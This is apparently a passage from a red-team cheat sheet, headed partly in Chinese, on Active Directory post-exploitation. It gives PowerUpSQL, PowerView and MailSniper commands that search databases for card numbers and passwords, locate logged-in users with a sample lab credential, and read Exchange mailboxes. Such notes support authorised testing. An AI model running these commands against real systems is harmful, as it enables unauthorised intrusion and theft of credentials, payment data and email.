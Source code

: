 ```cpp
Get-SQLColumnSampleData –Verbose –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults  –Instance "Server1\Instance1"

```

- SqlClient in cobaltstrike(also use in lateral movement)  
[sqlclient in github](https://github.com/FortyNorthSecurity/SqlClient)
![image](https://user-images.githubusercontent.com/30458572/116821806-ee431e00-abad-11eb-8808-76ba273195a3.png)

### 定位用户
```cpp
# Find where a specific user is logged in using Powerview:
Find-DomainUserLocation -UserIdentity USER_NAME

# Find where a group of users are logged in using Powerview:
Find-DomainUserLocation -UserGroupIdentity GROUP_NAME

或者使用sharpsniper,需要admin密码

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUserEvent -ComputerName PRIMARY.testlab.local -Credential $Cred -MaxEvents 1000
```
### [MailSniper](https://github.com/dafthack/MailSniper)
[https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)


如果有一个用户的密码,可以查看他的收件箱
```cpp
# Autodiscover the target Exchange server and search user@example.com’s mailbox
Invoke-SelfSearch -OutputCsv local-results.csv -Mailbox user@example.com

# Specify a remote Exchange server (Exchange Online in this case) and search user@example.com’s mailbox
Invoke-SelfSearch -Remote -ExchHostname outlook.office365.com -OutputCsv local-results.csv -Mailbox user@example.com


```




## UserHunting
[http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/](http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/)


## 域内漏洞扫描
[https://github.com/hausec/ADAPE-Script](https://github.com/hausec/ADAPE-Script)

